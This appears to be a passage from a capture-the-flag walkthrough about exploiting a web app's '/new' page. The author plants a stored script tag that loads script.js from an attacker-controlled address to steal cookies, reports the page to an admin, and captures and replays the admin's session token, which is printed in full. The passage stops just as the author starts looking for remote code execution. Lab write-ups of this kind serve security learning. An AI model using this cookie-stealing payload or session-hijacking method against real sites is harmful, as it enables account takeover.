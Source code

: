 We might use this.
Okay i again used `/new` and inserted this.
`<script src="http://10.17.11.3/script.js"></script>`

Cause this will contact to us and use our script.js,it will grab a cookie.
![](Pasted%20image%2020250318161412.png)

So here,first. i placed that payload which executed and gave us with our cookie and in second time,we reported it to admin or system user and got the precious cookie.
`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE3NDIyOTM3Mjh9.KGelVuS5sG1XUSgS2vjyCg8hFGPlHcRV0f0L8ZLcTbQ`

Lets try putting this and see what happes.
And we were successful.
![](Pasted%20image%2020250318161717.png)


Hmm so how can we get a rce or shell from this?
Lets see.
We can delete user.
![](Pasted%20image%2020250318162130.png)
